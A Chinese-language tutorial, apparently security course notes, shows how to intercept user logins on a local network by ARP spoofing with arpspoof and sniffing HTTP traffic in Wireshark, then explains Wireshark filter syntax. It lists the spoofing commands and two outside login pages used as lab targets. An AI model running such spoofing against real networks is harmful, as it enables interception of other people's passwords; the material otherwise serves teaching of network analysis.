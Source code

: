 # ARP-WireShark截获用户数据

## 1.WireShark工具介绍

wireshark的官方下载网站： http://www.wireshark.org/

wireshark是非常流行的网络封包分析软件，功能十分强大。可以截取各种网络封包，显示网络封包的详细信息。

wireshark是开源软件，可以放心使用。 可以运行在Windows，linux和Mac OS上。

## 2.ARP攻击截获密码的步骤

**1.开启数据包转发**

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

**2.开启ARP攻击**

但说实话这里捕获win10流量，跟arp攻击没啥关系，直接wireshark指定成win10的ip来筛选网络包即可。

```
arpspoof -i eth0 -r 192.168.15.2 -t 192.168.15.100
```

**3.启动wireshark**

```
wireshark
```

选择kali上网的网卡

![image-20240927234237411](4.ARP-WireShark截获用户数据/image-20240927234237411.png)	

**4.输入过滤条件**

```
(ip.src==192.168.15.141 or ip.dst==192.168.15.141) and tcp.port==80 and http
```

**5.靶机登录后台系统**

```
http://mng.517628.com/login.php
http://vmims.eguagua.cn/#/Login
```

**6.wireshark寻找用户的登录信息**

只需把过滤条件的源地址和目的地址改成win10的ip即可。

比如抓包可以抓到，win10靶机，访问dvwa的账号密码。

![image-20240928001219642](4.ARP-WireShark截获用户数据/image-20240928001219642.png)		

下图是马士兵老师做的实验，如果具有js字段还能看到js字段下网页的响应信息。

![image-20240927233500440](4.ARP-WireShark截获用户数据/image-20240927233500440.png)	

## 3.WireSahrk 过滤命令讲解

**1.过滤源ip，目的ip**

​	在wireshark的过滤规则框Filter中输入过滤条件。

​	如查找目的地址为192.168.110.11的包

```
ip.dst==192.168.110.11
```

​	查找源地址为1.1.1.1的包

```
ip.src==1.1.1.1
```

**2.端口过滤**

2.1把源端口和目的端口为80的都过滤出来

```
tcp.port==80
```

2.2只过滤目的端口为80的

```
tcp.dstport==80
```

2.3只过滤源端口为80的包

```
tcp.srcport==80
```

**3.协议过滤**

直接在Filter框中直接输入协议名即可滤

```
http
tcp
ssh
```

**4.http模式过滤**

4.1过滤get包

```
http.request.method=="GET"
```

4.2过滤post包

```
http.request.method=="POST"
```

**5.过滤多种条件**

用and连接，如过滤ip为192.168.110.11并且为http协议的

```
ip.src==192.168.110.11 and http
```

## 4.课堂小结

请看ARP-WireShark获取用户信息.xmind

